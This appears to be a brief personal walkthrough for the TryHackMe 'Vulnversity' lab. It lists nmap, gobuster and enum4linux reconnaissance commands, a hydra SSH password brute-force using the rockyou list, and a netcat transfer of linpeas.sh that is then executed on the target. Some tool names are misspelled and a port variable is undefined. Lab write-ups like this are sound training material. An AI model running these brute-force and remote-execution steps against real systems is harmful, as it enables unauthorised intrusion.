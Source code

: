 # Overview
https://tryhackme.com/room/vulnversity

```
export IP=10.10.191.59
```

## NMAP
```
mkdir nmap
nmap -sC -sV -oN nmap/initial $IP
```

## Gobuster
```
export WORDLIST=/opt/wordlists/directory-list-2.3-medium.txt
gobuster dir -u "http://$IP:3333" -w $WORDLIST -e | tee gobuster.log
```

## enum4linux
```
/opt/enum4linx/enum4linx.pl -a $IP | tee enum4linux.log
```

## hyra
For finding passwords
```
hydra -l jan -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://$IP
```

# linpeas!
target terminal:
```
nc -l -p 1234 > /tmp/jake &
```

my terminal:
```
nc $IP $PORT < linpeas.sh
```

Finally, run:
```
chmod +x /tmp/jake
/tmp/jake
```
